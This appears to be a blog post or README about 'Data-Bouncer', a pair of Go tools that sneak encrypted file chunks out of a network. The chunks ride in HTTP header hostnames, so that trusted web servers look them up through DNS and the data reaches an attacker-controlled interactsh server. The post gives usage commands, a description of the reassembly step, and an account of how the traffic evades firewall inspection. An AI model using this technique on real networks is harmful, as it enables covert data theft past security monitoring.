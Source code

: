 ```yaml
---
title: Data-Bouncer
description: Leverage trusted domains and HTTP headers to stealthily transmit data. 
author: BW
date: 2024-05-19 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
image:
    lqip: /assets/img/preview/data-bouncer.jpg
---
```


I came across this Proof of Concept outlined here in <https://thecontractor.io/data-bouncing>.
I took their ideas and wrote two Go scripts that can be used for educational purposes. Please don't do anything illegal.

One script, bounce.go, encrypts and exfiltrates data via DNS by breaking it into chunks and sending it through HTTP headers. The second script, regenerate.go, reassembles and decrypts the data from the exfiltrated chunks. This method leverages trusted domains and HTTP headers to stealthily transmit data.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using <https://github.com/projectdiscovery/interactsh>.

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. First encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh exfil server, processes and reassembles the chunks and does the reverse of decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and does a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups back to our exfil server and reconstruct the data from those headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those headers for collection.
- Therefore, this makes it an extremely stealthy way of exfiltrating data.
